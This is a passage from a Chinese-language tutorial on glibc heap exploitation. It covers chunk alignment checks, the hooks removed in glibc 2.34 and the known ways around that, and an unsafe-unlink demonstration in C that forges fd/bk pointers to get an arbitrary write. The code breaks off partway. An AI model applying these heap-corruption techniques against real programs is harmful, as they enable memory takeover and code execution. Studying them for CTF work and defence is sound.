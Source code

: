 aligned_OK()定义为：

```c
#define aligned_OK(m)  (((unsigned long)(m) & MALLOC_ALIGN_MASK) == 0)
#define MALLOC_ALIGN_MASK (MALLOC_ALIGNMENT – 1)
#define MALLOC_ALIGNMENT (2 * SIZE_SZ < __alignof__ (long double) \
? __alignof__ (long double) : 2 * SIZE_SZ)
```

可以看到内存地址需要以0x10字节对齐。

### libc-2.34

glibc-2.34 的到来给予了hook劫持沉重的一击，移除了以下几个hook符号：

> __free_hook
>
> __malloc_hook
>
> __realloc_hook
>
> __memalign_hook
>
> __after_morecore_hook

#### 绕过思路

1. 利用IO_vtable
2. 利用exit_hook
3. 劫持返回地址进行ROP

## unsafe unlink

unsafe-unlink利用chunkfree时的合并机制，实现了地址的任意读写

> 使用条件：
>
> - 能够利用溢出或其他漏洞，将某chunk的size域的最低16进制位修改为0，例: 0x91 --> 0x90

```c
/*这是一段unsafe-unlink的示例代码，我们在最后成功利用这个漏洞，
实现了对非堆上地址victimstring的内容更改*/
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

uint64_t * chunk0_ptr;
int main()
{
    chunk0_ptr = (uint64_t*)malloc(0x80);       //chunk0
    uint64_t *chunk1_ptr = (uint64_t*) malloc(0x80);        //chunk1
    fprintf(stderr, "chunk0_ptr: %p -> %p\n",&chunk0_ptr, chunk0_ptr);
    fprintf(stderr, "victim chunk: %p\n\n",chunk1_ptr);

    /*pass the check:   (chunksize(p) != prev_size(next_chunk(P)) == False)
                        chunk0_ptr[1] = 0x0;// or 0x8, 0x80*/

    //pass the check:   (p->fd->bk != p || p->bk->fd != p) == False

    chunk0_ptr [2] = (uint64_t) &chunk0_ptr - 0x18;
    chunk0_ptr [3] = (uint64_t) &chunk0_ptr - 0x10;
    fprintf(stderr, "fake fd: %p = &chunk0_ptr - 0x18", (void*)chunk0_ptr[2]);
    fprintf(stderr, "fake bk: %p = &chunk0_ptr - 0x10", (void*)chunk0_ptr[3]);
    
    uint64_t *chunk1_hdr = (void*) chunk1_ptr - 0x10;
    chunk1_hdr[0] = 0x80;
    chunk1_hdr[1] &= ~1;
```